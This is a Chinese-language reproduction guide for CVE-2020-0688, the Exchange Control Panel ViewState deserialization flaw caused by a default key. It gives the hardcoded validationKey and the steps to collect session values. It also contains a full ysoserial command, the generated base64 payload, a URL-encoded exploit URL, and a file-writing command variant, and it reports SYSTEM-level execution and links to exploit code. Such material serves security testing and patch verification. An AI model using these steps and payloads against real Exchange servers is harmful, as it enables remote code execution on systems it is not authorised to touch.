 # CVE-2020-0688

## 原理

CVE-2020-0688是Exchange一个由于默认加密密钥造成的反序列化漏洞，该漏洞存在于Exchange Control Panel(ecp)中，不涉及Exchange的工作逻辑，其本质上是一个`web漏洞`。

具体来说，与正常软件安装每次都会产生随机密钥不同，所有Exchange  Server在安装后的web.config（C:\exchange\setup\serverroles\clientaccess\ecp\web.config）文件中都拥有相同的validationKey和decryptionKey。这些密钥用于保证ViewState的安全性。而ViewState是ASP.NET  Web应用以序列化格式存储在客户机上的服务端数据。客户端通过__VIEWSTATE请求参数将这些数据返回给服务器。攻击者可以在ExchangeControl Panel web应用上执行任意.net代码。

当攻击者通过各种手段获得一个可以访问Exchange Control Panel （ECP）组件的用户账号密码时。攻击者可以在被攻击的exchange上执行任意代码，直接获取服务器权限。

## 复现

### 获取参数

想要利用该漏洞，需要获取四个参数，分别是：

+ validationkey = CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF（默认，漏洞产生原因）

+ validationalg = SHA1（默认，漏洞产生原因）

+ generator = B97B4E27

+ viewstateuserkey = ASP.NET_SessionId（手工获取，变量，每次登陆都不一致）

在这四个变量中，前两个为默认固定，viewstateuserkey和generator的值需要从经过身份验证的session中收集（登录https://ip/ecp/default.aspx，在default.aspx–>Headers–>ASP.NET_SessionId中找到viewstateuserkey的值；在default.aspx–>Response–>__VIEWSTATEGENERATOR中找到generator的值，若未找到该字段，则使用默认的B97B4E27）。

### 生成payload

使用ysoserial工具生成反序列化payload。工具下载地址[ysoserial][https://github.com/Yt1g3r/CVE-2020-0688_EXP]

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "cmd /c calc.exe" --validationalg="SHA1" --validationkey="CB2721ABDAF8E9DC516D621D8B8BF13A2C9E8689A25303BF" --generator="B97B4E27" --viewstateuserkey="1625798e-8558-4302-b6d2-87907ff07126"
```

得到payload如下：

```
/wEytgYAAQAAAP////8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsLkVkaXRvciwgVmVy
c2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxYmYzODU2YWQzNjRl
MzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZXh0Rm9ybWF0dGlu
Z1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAADYBDxSZXNvdXJjZURpY3Rp
b25hcnkNCiAgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZngvMjAwNi94YW1s
L3ByZXNlbnRhdGlvbiINCiAgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb2Z0LmNvbS93aW5m
eC8yMDA2L3hhbWwiDQogIHhtbG5zOlN5c3RlbT0iY2xyLW5hbWVzcGFjZTpTeXN0ZW07YXNzZW1ibHk9
bXNjb3JsaWIiDQogIHhtbG5zOkRpYWc9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpYWdub3N0aWNzO2Fz
c2VtYmx5PXN5c3RlbSI+DQoJIDxPYmplY3REYXRhUHJvdmlkZXIgeDpLZXk9IiIgT2JqZWN0VHlwZSA9
ICJ7IHg6VHlwZSBEaWFnOlByb2Nlc3N9IiBNZXRob2ROYW1lID0gIlN0YXJ0IiA+DQogICAgIDxPYmpl
Y3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgPFN5c3RlbTpTdHJpbmc+Y21k
PC9TeXN0ZW06U3RyaW5nPg0KICAgICAgICA8U3lzdGVtOlN0cmluZz4iL2MgY2FsYy5leGUiIDwvU3lz
dGVtOlN0cmluZz4NCiAgICAgPC9PYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAg
ICA8L09iamVjdERhdGFQcm92aWRlcj4NCjwvUmVzb3VyY2VEaWN0aW9uYXJ5PgvgZt0VYWOvMdz8xDFY
qHsQKtNzdA==
```

### 构造攻击地址

在生成完payload代码后，需要对payload代码进行URL Encode编码构造一个URL

```
https://ExchangeServerIP/ecp/defaults.aspx?__VIEWSTATEGENERATOR=<generator>&__VIEWSTATE=<ViewState>
```

即

```
[+] Exp url: https://192.168.15.158/ecp/default.aspx?__VIEWSTATEGENERATOR=B97B4E
27&__VIEWSTATE=/wEytgYAAQAAAP////8BAAAAAAAAAAwCAAAAXk1pY3Jvc29mdC5Qb3dlclNoZWxsL
kVkaXRvciwgVmVyc2lvbj0zLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPTMxY
mYzODU2YWQzNjRlMzUFAQAAAEJNaWNyb3NvZnQuVmlzdWFsU3R1ZGlvLlRleHQuRm9ybWF0dGluZy5UZ
Xh0Rm9ybWF0dGluZ1J1blByb3BlcnRpZXMBAAAAD0ZvcmVncm91bmRCcnVzaAECAAAABgMAAADYBDxSZ
XNvdXJjZURpY3Rpb25hcnkNCiAgeG1sbnM9Imh0dHA6Ly9zY2hlbWFzLm1pY3Jvc29mdC5jb20vd2luZ
ngvMjAwNi94YW1sL3ByZXNlbnRhdGlvbiINCiAgeG1sbnM6eD0iaHR0cDovL3NjaGVtYXMubWljcm9zb
2Z0LmNvbS93aW5meC8yMDA2L3hhbWwiDQogIHhtbG5zOlN5c3RlbT0iY2xyLW5hbWVzcGFjZTpTeXN0Z
W07YXNzZW1ibHk9bXNjb3JsaWIiDQogIHhtbG5zOkRpYWc9ImNsci1uYW1lc3BhY2U6U3lzdGVtLkRpY
Wdub3N0aWNzO2Fzc2VtYmx5PXN5c3RlbSI%2BDQoJIDxPYmplY3REYXRhUHJvdmlkZXIgeDpLZXk9IiI
gT2JqZWN0VHlwZSA9ICJ7IHg6VHlwZSBEaWFnOlByb2Nlc3N9IiBNZXRob2ROYW1lID0gIlN0YXJ0IiA
%2BDQogICAgIDxPYmplY3REYXRhUHJvdmlkZXIuTWV0aG9kUGFyYW1ldGVycz4NCiAgICAgICAgPFN5c
3RlbTpTdHJpbmc%2BY21kPC9TeXN0ZW06U3RyaW5nPg0KICAgICAgICA8U3lzdGVtOlN0cmluZz4iL2M
gY2FsYy5leGUiIDwvU3lzdGVtOlN0cmluZz4NCiAgICAgPC9PYmplY3REYXRhUHJvdmlkZXIuTWV0aG9
kUGFyYW1ldGVycz4NCiAgICA8L09iamVjdERhdGFQcm92aWRlcj4NCjwvUmVzb3VyY2VEaWN0aW9uYXJ
5PgtHiZP1lrub7OvMC2bJowYpBsZWXA%3D%3D
```

### 执行攻击

访问构造好的URL地址，服务器会弹出500的错误，但攻击其实成功了。

登录服务器查看进程，发现计算器已成功启动，权限为system。



## 其他

### 版本

资料显示，该漏洞普遍存在于Microsoft Exchange Server 2010 Service Pack 3，Microsoft Exchange Server 2013，Microsoft Exchange Server 2016，Microsoft Exchange Server 2019。

### 创建文件

`-c “cmd /c echo test > C:\1.txt”`

### 参考资料及利用代码

[利用代码][https://github.com/Yt1g3r/CVE-2020-0688_EXP]

[参考资料1][https://www.freebuf.com/vuls/228735.html]

[参考资料2][https://www.freebuf.com/vuls/228681.html]

